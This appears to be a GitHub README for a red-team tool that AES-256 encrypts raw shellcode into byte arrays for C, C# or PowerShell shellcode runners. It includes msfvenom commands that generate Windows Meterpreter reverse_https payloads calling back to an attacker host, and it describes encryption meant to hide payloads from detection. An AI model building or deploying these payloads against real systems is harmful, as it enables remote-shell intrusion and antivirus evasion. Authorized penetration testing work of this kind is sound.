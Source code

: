# AES Shellcode Encryptor

Encrypt raw shellcode and print AES‑encrypted payloads as byte arrays for copy‑pasting into shellcode runners (C, C#, PowerShell). Intended for red‑team / pentest usage.

## Contents

* `AesEncryptor.py` — CLI tool to:

  * Encrypt x64/x86 raw shellcode blobs using AES‑256‑CBC (PKCS7 padding).
  * Output IV, key and encrypted buffers in **C**, **C#**, or **PowerShell** byte-array formats suitable for pasting into shellcode runner code.

## Features

* AES‑256‑CBC encryption of raw shellcode bytes
* Outputs formatted ready-to-paste byte arrays for three common runtimes
* Support for both x64 (`--buf`) and x86 (`--buf86`) raw payloads
* Small, dependency-only runtime: `cryptography`

## Requirements

* Python 3.8+
* `cryptography` package

Install dependency:

```bash
pip install cryptography
```

## Quick usage

Generate a raw payload (works with any C2, create bin format shellcode):

```bash
# x64 raw
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f raw -o buf.bin
# x86 raw
msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f raw -o buf86.bin
```

Run the encryptor (examples):

```bash
# Output in C format (default)
python AesEncryptor.py -c -buf buf.bin

# Output in PowerShell format
python AesEncryptor.py -powershell -buf buf.bin

# Output in C# format for both x64 and x86 payloads
python AesEncryptor.py -csharp -buf buf.bin -buf86 buf86.bin
```

Output will print AES key, AES IV (for debugging, must match first 16 bytes on encrypted buf), and encrypted buffers in the selected format for pasting into shellcode runner code.

## Notes

* AES key: 32 bytes (AES‑256)
* IV: 16 bytes (AES block size)
* Mode: CBC
* Padding: PKCS7
* Encrypted payload is returned as `IV || ciphertext` (IV concatenated in front of ciphertext) — this preserves IV for the decryptor.
* This script generates a fresh key & IV each run.
* This repo intentionally leaves decryption/runner code out. The encrypted blobs must be decrypted within a shellcode runner.

## TODO / ideas

* Add `-o` flag to write to files.
* Add optional key input.
* Template shellcode runners (C, C#, PS) that can decrypt and execute payloads. Populated when running this script
* Authenticated encryption (AES‑GCM).
